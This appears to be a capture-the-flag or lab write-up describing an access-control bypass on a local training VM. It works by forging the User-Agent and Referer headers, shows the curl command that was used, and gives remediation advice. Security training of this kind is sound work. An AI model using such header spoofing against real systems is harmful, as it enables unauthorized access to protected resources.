

# Header-Based Access Bypass

## Description
The application restricts access based on specific HTTP headers. By inspecting the page source, I found that it expects:

- a `User-Agent` set to `ft_bornToSec`  
- a `Referer` set to `https://www.nsa.gov/`  

These headers are controlled by the client and can be easily modified.

---

## Exploitation
To test this, I sent a request with the required headers:

```bash
curl -X GET "http://192.168.56.4/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" \
  -H "User-Agent: ft_bornToSec" \
  -H "Referer: https://www.nsa.gov/"
```
The server accepted the request and granted access, even though these headers can be freely set by the user.

## Impact
- Bypass of access restrictions
- Unauthorized access to protected resources


## Remediation
- Do not rely on client-controlled headers for authorization
- Implement proper server-side access control
- Validate permissions using trusted server-side data

  
## Conclusion

This issue shows that relying on HTTP headers for access control is insecure, as they can be easily modified by the client to bypass restrictions.


